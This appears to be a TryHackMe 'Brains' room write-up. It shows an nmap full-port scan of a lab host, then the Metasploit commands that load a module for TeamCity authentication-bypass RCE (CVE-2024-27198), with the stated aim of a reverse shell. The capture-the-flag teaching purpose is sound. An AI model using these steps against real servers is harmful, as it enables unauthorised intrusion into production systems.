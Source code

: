 ![Nmap Scan](Theme%20Brains.JPG)
# brains-writeup-thm

> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!
# 1. First Step in the Terminal "nmap -p- <Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
1. "nmap" -> The network scanner tool
2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
3. "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

# 2. What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability

*The most interesting one here is Port 50000: even though it's labeled ibm-db2, it actually runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
```bash
msfconsole
```
1. "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
1. "search teamcity" -> This will list available exploit modules related to TeamCity
2. Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```
# After loading an exploit module in Metasploit, you should always run: 
```bash
options
```
1. "options" -> This command shows you all the configurable parameters for the selected module
   
![Nmap Scan](Brain%20Room%20exploit%20run.JPG)


